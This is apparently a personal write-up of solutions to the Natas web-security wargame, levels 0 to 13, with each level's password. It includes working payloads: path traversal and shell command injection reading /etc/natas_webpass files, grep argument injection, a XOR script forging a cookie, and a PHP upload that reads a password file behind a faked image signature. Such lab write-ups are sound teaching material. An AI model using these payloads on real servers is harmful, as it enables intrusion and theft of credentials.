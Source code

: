 # Natas
This repository holds my solutions to the wargame natas.

## Level 0
Looking in the source we can see the comment:
```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```
Password: gtVrDuiDfck831PqWsLEZy5gyDz1clto

## Level 1
We can use the shortcut 'CTRL+U' to access the source and find the comment:
```
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```
Password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

## Level 2
Looking in the source we see that a picture called pixels is stored in the directory files. Going to http://natas2.natas.labs.overthewire.org/files/ we can see the file users.txt which holds the password.

Password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

## Level 3
Looking in the source we can see the comment: `<!-- No more information leaks!! Not even Google will find it this time... -->`. The only way google won't find it is if it's path was stored in the robots.txt file. Visiting it, then going to http://natas3.natas.labs.overthewire.org/s3cr3t/ results in the password.

Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

## Level 4
We can use a curl command to change the http referer. Running `curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/index.php` results in the password.

Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

## Level 5
Changing the cookie loggedin from 0 to 1 results in the password.

Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

## Level 6
Looking at the php in the source after clicking the view source button we can see that the secret is stored in http://natas6.natas.labs.overthewire.org/includes/secret.inc. Visiting the url and submitting the secret results in the password.

Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

## Level 7
The site reads a file that we can control the name of. Looking in the source we can see that the password is stored in `/etc/natas_webpass/natas8`. Going to the url `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8` results in the password.

Password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

## Level 8
The secret has been base64 encoded, reversed, then encoded in hex. We can use the following line of python to decode it `import base64; base64.b64decode(bytearray.fromhex("3d3d516343746d4d6d6c315669563362").decode()[::-1])` and get the secret `oubWYf2kBq`. Submitting the secret we get the password.

Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

## Level 9
We can inject a linux command using `; COMMAND HERE ;`. Inputting `; cat /etc/natas_webpass/natas10;` results in the password.

Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## Level 10
We can use the regular expression `.*` to match anything. If we use it then add the name of the file containing the password, then comment the rest of the expression we get the password. We can use this command to do that: `.* /etc/natas_webpass/natas11 #`

Password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

## Level 11
The first thing we have to do is create a script that XORs two strings.
```
def xor(str1, str2):
	assert(len(str1)==len(str2))
	return ''.join([chr(ord(str1[i])^ord(str2[i])) for i in range(len(str1))])
```
The json encoded data should look like this: `{"showpassword":"no","bgcolor":"#ffffff"}`. Due to the easy reversibility of XOR we can find the key by XORing the string above and the cookie. Running: `xor(base64.b64decode("ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=").decode(), "{\"showpassword\":\"no\",\"bgcolor\":\"#ffffff\"}")` gives us the key, `qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq`. 

Now we can XOR the json data we need to solve the challenge, `{"showpassword":"yes","bgcolor":"#ffffff"}`, with the key to get the cookie needed to get the password. We have to extend the key to make it equal in size to the json data.
```
>>> x = xor("qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw", "{\"showpassword\":\"yes\",\"bgcolor\":\"#ffffff\"}")
>>> base64.b64encode(bytes(x, 'utf-8'))
b'ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK'
```
Changing the cookie data to `ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK` results in the password.

Password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

## Level 12
Thank you, https://www.abatchy.com/2016/11/natas-level-12 on this problem for so long. (Note: this is the only hint I've yet to use)

The key insight is to realize that the file you inject can be run by the server. Looking at the code we see that the file type of the injected file is stored in the variable filename. Changing this from a .jpg to a .php allows us to inject php code. We can inject the following code to read the password stored in natas13
```
<?php
$file = file_get_contents("/etc/natas_webpass/natas13");
echo $file;
?>
```
Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## Level 13
This is the same problem as before except now we have to pass an extra if statement that checks if our file is an image. It checks this using the function exif_imagetype. A quick trip to the (documentation)[https://www.php.net/manual/en/function.exif-imagetype.php] tells us that this is done by checking the file signature. This means we can easily bypass the check by modifing the file signature in a hex editor. Changing the first four bytes to FF D8 FF DB, shifting our code four bytes, and changning the code above to read from the file natas14 results in the password. All we have to do after our modifications to the file is change the variable filename from a .jpg to a .php file and submit.

Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
